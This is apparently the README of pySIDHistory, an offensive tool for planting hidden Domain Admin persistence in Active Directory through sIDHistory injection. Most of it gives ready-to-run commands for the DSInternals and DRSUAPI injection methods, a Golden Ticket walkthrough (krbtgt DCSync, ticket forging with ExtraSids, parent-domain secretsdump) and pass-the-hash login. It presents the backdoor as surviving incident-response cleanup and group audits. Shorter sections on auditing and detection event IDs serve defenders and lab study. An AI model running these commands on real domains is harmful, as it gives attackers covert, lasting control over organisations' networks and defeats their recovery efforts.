




# pySIDHistory

Remote SID History injection & auditing from Linux — persistent DA backdoor, invisible to group membership queries.

> *"There is currently no way to exploit this technique purely from a distant UNIX-like machine"* — [The Hacker Recipes](https://www.thehacker.recipes/ad/persistence/sid-history)

Challenge accepted.

---

## What is this?

**pySIDHistory** is a **persistence tool**. It injects privileged SIDs (Domain Admins, Enterprise Admins, etc.) into the `sIDHistory` attribute of a normal user account. That user then **has DA privileges without being a member of the DA group**.

This is not privilege escalation — you need DA to run it. It's what you do **after** getting DA to ensure you keep access even if the compromised DA account gets disabled, its password reset, or removed from privileged groups.

### Why sIDHistory?

When a user authenticates, Windows adds every SID from `sIDHistory` to their access token — alongside their primary SID and group memberships. If `sIDHistory` contains the Domain Admins SID, the user **is** a Domain Admin in every way that matters, but:

- `net group "Domain Admins"` does **not** show them
- BloodHound group membership queries miss them (without sIDHistory-specific collection)
- Standard audit scripts checking group membership won't flag them
- The backdoor survives password rotations and group membership reviews

### MITRE ATT&CK

[T1134.005 — Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)

---

## POC — From nobody to DA in one command

**Before:** `user1` is a regular domain user — no admin shares, no SAM dump, no sIDHistory.





**Injection:** one command injects Domain Admins SID into `user1`'s sIDHistory.



**After:** `user1` dumps SAM hashes — DA privileges confirmed, without being in the Domain Admins group.



```bash
# 1. Verify user1 has no sIDHistory
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 --query user1

# 2. Inject Domain Admins SID
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 \
    --target user1 --inject domain-admins --force

# 3. Verify — user1 is now DA via sIDHistory
netexec smb 192.168.56.10 -u user1 -p 'Password123!' -d lab1.local --sam
```

---

## Installation

```bash
git clone https://github.com/felixbillieres/pySIDHistory.git
cd pySIDHistory
pip install -r requirements.txt
```

**Requirements**: Python 3.7+, `ldap3`, `impacket`

---

## Two injection methods

| | DSInternals (default) | DRSUAPI (stealth) |
|---|---|---|
| **What it does** | Stops NTDS, modifies ntds.dit offline via DSInternals, restarts NTDS | Calls `DRSAddSidHistory` (opnum 20) over RPC |
| **Privileged SIDs** (DA, EA, krbtgt) | Yes | No (SID-filtered at trust boundary) |
| **Same-domain injection** | Yes | No (error 8534 — same forest) |
| **Cross-forest injection** | Yes | Yes |
| **Requires** | Domain Admin on the DC | DA + auditing + audit groups + cross-forest trust |
| **NTDS downtime** | ~5-10 seconds | None |
| **Stealth** | Lower (stops NTDS, creates service, writes to disk) | Higher (pure RPC, no disk writes) |
| **Best for** | Same-domain persistence (any SID) | Cross-forest persistence (RID > 1000, stealth) |

---

## DSInternals method (default)

The primary method. Works same-domain, can inject any SID including privileged ones (RID < 1000).

```bash
# Same-domain: inject Domain Admins into user1
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 \
    --target user1 --inject domain-admins --force

# Cross-domain: inject Domain Admins of lab2.local via trust resolution
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 \
    --target user1 --inject domain-admins --inject-domain lab2.local --force

# Raw SID injection
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 \
    --target user1 --inject S-1-5-21-3522073385-2671856591-2684624930-512 --force
```

### DSInternals risks

The DSInternals method stops the NTDS service to get exclusive access to `ntds.dit`. This is fundamentally different from tools like `secretsdump` (DCSync via `DRSGetNCChanges` — read-only, zero risk) or `ntdsutil` (VSS snapshot — read-only copy).

| Risk | Impact | Mitigation |
|---|---|---|
| **NTDS downtime** | DC stops processing auth for ~5-10s | Emergency restart built in, auto-retry on failure |
| **Failed restart** | DC stays down until manual `Start-Service ntds` | Script always attempts restart in catch block |
| **ntds.dit corruption** | Unlikely but possible if crash during write | ESE transactions, DSInternals uses safe APIs |
| **Disk artifacts** | Service `__pySIDHist`, script in `C:\Windows\Temp\` | Auto-cleanup after execution |

In a multi-DC environment, other DCs continue serving authentication during the ~10s window.

---

## DRSUAPI method (stealth, cross-forest)

Pure RPC, no disk writes, no service creation, no NTDS downtime. The limitation is that Windows SID filtering strips SIDs with RID < 1000 from the PAC at forest trust boundaries, so you can't inject Domain Admins (-512) this way. For custom groups with RID > 1000, it's undetectable by standard monitoring.

```bash
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 \
    --target user1 --method drsuapi --source-user da-admin2 --source-domain lab2.local \
    --src-username da-admin2 --src-password 'Password123!' --src-domain lab2.local
```

### DRSUAPI prerequisites

| Requirement | Details |
|---|---|
| Cross-forest trust | Source and destination must be in different forests |
| Auditing on both DCs | `auditpol /set /category:"Account Management" /success:enable /failure:enable` |
| Audit groups | Local groups `$SRC_DOMAIN$$$` and `$DST_DOMAIN$$$` must exist on both DCs |
| Source domain credentials | `--src-username`, `--src-password`, `--src-domain` |
| Domain Admin on destination | The authenticated user must be DA in the target domain |

---

## pySIDHistory vs. Golden Ticket + ExtraSids

These are **complementary** techniques, not the same thing.

| | pySIDHistory | Golden Ticket + ExtraSids |
|---|---|---|
| **What it does** | Modifies the `sIDHistory` attribute in AD (ntds.dit) | Forges a Kerberos ticket with extra SIDs in the PAC |
| **Persistence** | Permanent — stored in AD, replicates to all DCs | Ephemeral — lasts until ticket expires |
| **Survives** | Password resets, group reviews, DC rebuilds | Nothing — must re-forge when ticket expires |
| **Cross-domain** | Requires DA on the target domain | Only needs krbtgt hash of child domain (intra-forest) |
| **Visibility** | Detectable via sIDHistory LDAP queries | No AD modification, harder to detect |
| **Tools** | pySIDHistory | `ticketer.py --extra-sid`, Mimikatz `/sids:`, Rubeus |

**Golden Ticket + ExtraSids** is how you **escalate** from child domain DA to parent domain DA within a forest — you forge a TGT with Enterprise Admins SID in ExtraSids, and since intra-forest trusts don't apply SID filtering, it passes through. This doesn't require pySIDHistory — use [impacket's ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py):

```bash
# 1. DCSync krbtgt from child domain
secretsdump.py 'child.corp.local/da-admin:Pass@DC1' -just-dc-user krbtgt

# 2. Forge Golden Ticket with parent's Enterprise Admins SID
ticketer.py -nthash <krbtgt-hash> -domain child.corp.local \
    -domain-sid S-1-5-21-<child-sid> \
    -extra-sid S-1-5-21-<parent-sid>-519 \
    Administrator

# 3. Use it
export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass corp.local/Administrator@DC-PARENT
```

**pySIDHistory** is what you use for **persistent** backdoors that survive across ticket lifetimes, password rotations, and IR cleanup efforts. Use both together: Golden Ticket for immediate cross-domain access, pySIDHistory for long-term persistence.

---

## Blue Team — Audit & Recon

### Query sIDHistory

```bash
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 --query user1
```

### Domain-wide audit

Scans every object for sIDHistory entries with risk assessment (CRITICAL/HIGH/MEDIUM/LOW). Same-domain SIDs are almost always attack artifacts.

```bash
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 --audit

# JSON export for SIEM
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 \
    --audit -o json --output-file audit.json
```

### Enumerate trusts

Shows SID filtering status per trust — critical for assessing Golden Ticket + ExtraSids attack surface.

```bash
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 --enum-trusts
```

### SID lookup & presets

```bash
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 --lookup user1
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 --list-presets
```

---

## Authentication

| Method | Flags |
|--------|-------|
| NTLM (password) | `-u USER -p 'PASSWORD'` |
| Pass-the-Hash | `-u USER --ntlm-hash NT_HASH` |
| Kerberos | `--kerberos --ccache ccache_file` |
| Certificate (PTC) | `--certificate --cert-file cert.pem --key-file key.pem` |
| SIMPLE bind | `--simple -u USER -p 'PASSWORD' --use-ssl` |

---

## Architecture

```
main.py                        CLI entry point & argument handling
  └── core/
      ├── attack.py            Orchestrator (wires everything together)
      ├── auth.py              Authentication (5 methods, ldap3 + impacket)
      ├── ldap_operations.py   LDAP queries & domain enumeration
      ├── sid_utils.py         SID binary conversion, presets, well-known SIDs
      ├── scanner.py           Domain-wide auditing & risk assessment
      ├── output.py            Console/JSON/CSV formatting
      └── methods/
          ├── dsinternals/
          │   └── injector.py  DSInternals injection via SMB + SCMR
          └── drsuapi/
              └── client.py    DRSAddSidHistory RPC (opnum 20)
```

## Detection

### DRSUAPI method

| Event ID | Description |
|----------|-------------|
| **4765** | SID History added to an account |
| **4766** | SID History add attempt failed |
| **4738** | User account changed (any attribute) |

### DSInternals method

The DSInternals method **does NOT generate Event 4765/4766** because it bypasses DRSUAPI entirely (offline ntds.dit modification). Detection relies on indirect indicators:

| Indicator | What to look for |
|-----------|-----------------|
| **Event 7045** | New service `__pySIDHist` installed (System log) |
| **Event 7036** | NTDS service entered stopped/running state |
| **Event 4688** | `powershell.exe -ExecutionPolicy Bypass` as SYSTEM |
| **File artifacts** | `C:\Windows\Temp\__pysidhistory_*` |
| **SMB writes** | File upload to `\\DC\ADMIN$\Temp\` |
| **sIDHistory audit** | Same-domain SIDs in sIDHistory (strongest indicator — use `--audit`) |

## Lab

**[sIDHistoryLab](https://github.com/felixbillieres/sIDHistoryLab)** — Two Windows Server 2019 DCs with cross-forest trust, fully automated with Vagrant.

## Verbose mode

Default output is clean and minimal. Use `-v` for full debug traces (LDAP, SMB, RPC, SCMR).

```bash
python3 main.py -d CORP.LOCAL -u admin -p 'Pass123' --dc-ip 10.0.0.1 --audit -v
```

## References

- [MS-DRSR: IDL_DRSAddSidHistory (Opnum 20)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/376230a5-d806-4ae5-970a-f6243ee193c8)
- [MS-SCMR: Service Control Manager Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/)
- [MS-PAC: SID Filtering and Claims Transformation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280)
- [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
- [The Hacker Recipes: SID History](https://www.thehacker.recipes/ad/persistence/sid-history)
- [Sean Metcalf: Golden Tickets + SID History (ADSecurity)](https://adsecurity.org/?p=1640)
- [Dirkjan Mollema: SID Filtering](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)
- [BloodHound: SpoofSIDHistory Edge](https://bloodhound.specterops.io/resources/edges/spoof-sid-history)
- [impacket](https://github.com/fortra/impacket)
- [MITRE ATT&CK T1134.005](https://attack.mitre.org/techniques/T1134/005/)

## Author

[@felixbillieres](https://github.com/felixbillieres)
